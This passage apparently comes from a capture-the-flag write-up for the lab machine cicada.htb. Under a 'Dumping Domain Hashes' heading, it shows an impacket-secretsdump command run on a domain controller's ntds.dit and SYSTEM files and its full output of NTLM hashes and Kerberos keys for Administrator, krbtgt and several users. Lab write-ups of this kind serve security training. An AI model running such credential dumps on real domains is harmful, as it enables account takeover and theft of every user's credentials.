 

##  **Dumping Domain Hashes**
```
impacket-secretsdump -ntd ntds.dit -system system local
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f954f575c626d6afe06c2b80cc2185e6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CICADA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3779000802a4bb402736bee52963f8ef:::
cicada.htb\john.smoulder:1104:aad3b435b51404eeaad3b435b51404ee:0d33a055d07e231ce088a91975f28dc4:::
cicada.htb\sarah.dantelia:1105:aad3b435b51404eeaad3b435b51404ee:d1c88b5c2ecc0e2679000c5c73baea20:::
cicada.htb\michael.wrightson:1106:aad3b435b51404eeaad3b435b51404ee:b222964c9f247e6b225ce9e7c4276776:::
cicada.htb\david.orelious:1108:aad3b435b51404eeaad3b435b51404ee:ef0bcbf3577b729dcfa6fbe1731d5a43:::
cicada.htb\emily.oscars:1601:aad3b435b51404eeaad3b435b51404ee:559048ab2d168a4edf8e033d43165ee5:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:e47fd7646fa8cf1836a79166f5775405834e2c060322d229bc93f26fb67d2be5
Administrator:aes128-cts-hmac-sha1-96:f51b243b116894bea389709127df1652
Administrator:des-cbc-md5:c8838c9b10c43b23
CICADA-DC$:aes256-cts-hmac-sha1-96:e9752f2c7752bd92142588e63dc0383499f49b04a46de37845e33d40de1db7ed
CICADA-DC$:aes128-cts-hmac-sha1-96:7fc8e7f2daa14d0ccdf070de9cfc49c5
CICADA-DC$:des-cbc-md5:b0f7cdec040d5b6d
krbtgt:aes256-cts-hmac-sha1-96:357f15dd4d315af47ac63658c444526ec0186f066ad9efb46906a7308b7c60c8
krbtgt:aes128-cts-hmac-sha1-96:39cbc0f220550c51fb89046ac652849e
krbtgt:des-cbc-md5:73b6c419b3b9bf7c
cicada.htb\john.smoulder:aes256-cts-hmac-sha1-96:57ae6faf294b7e6fbd0ce5121ac413d529ae5355535e20739a19b6fd2a204128
cicada.htb\john.smoulder:aes128-cts-hmac-sha1-96:8c0add65bd3c9ad2d1f458a719cfda81
cicada.htb\john.smoulder:des-cbc-md5:f1feaeb594b08575
cicada.htb\sarah.dantelia:aes256-cts-hmac-sha1-96:e25f0b9181f532a85310ba6093f24c1f2f10ee857a97fe18d716ec713fc47060
cicada.htb\sarah.dantelia:aes128-cts-hmac-sha1-96:2ac9a92bca49147a0530e5ce84ceee7d
cicada.htb\sarah.dantelia:des-cbc-md5:0b5b014370fdab67
cicada.htb\michael.wrightson:aes256-cts-hmac-sha1-96:d89ff79cc85032f27499425d47d3421df678eace01ce589eb128a6ffa0216f46
cicada.htb\michael.wrightson:aes128-cts-hmac-sha1-96:f1290a5c4e9d4ef2cd7ad470600124a9
cicada.htb\michael.wrightson:des-cbc-md5:eca8d532fd8f26bc
cicada.htb\david.orelious:aes256-cts-hmac-sha1-96:125726466d0431ed1441caafe8c0ed9ec0d10b0dbaf4fec7a184b764d8a36323
cicada.htb\david.orelious:aes128-cts-hmac-sha1-96:ce66c04e5fd902b15f5d4c611927c9c2
cicada.htb\david.orelious:des-cbc-md5:83585bc41573897f
cicada.htb\emily.oscars:aes256-cts-hmac-sha1-96:4abe28adc1d16373f4c8db4d9bfd34ea1928aca72cb69362d3d90f69d80c000f
cicada.htb\emily.oscars:aes128-cts-hmac-sha1-96:f98d74d70dfb68b70ddd821edcd6a023
cicada.htb\emily.oscars:des-cbc-md5:fd4a5497d38067cd
[*] Cleaning up...
```
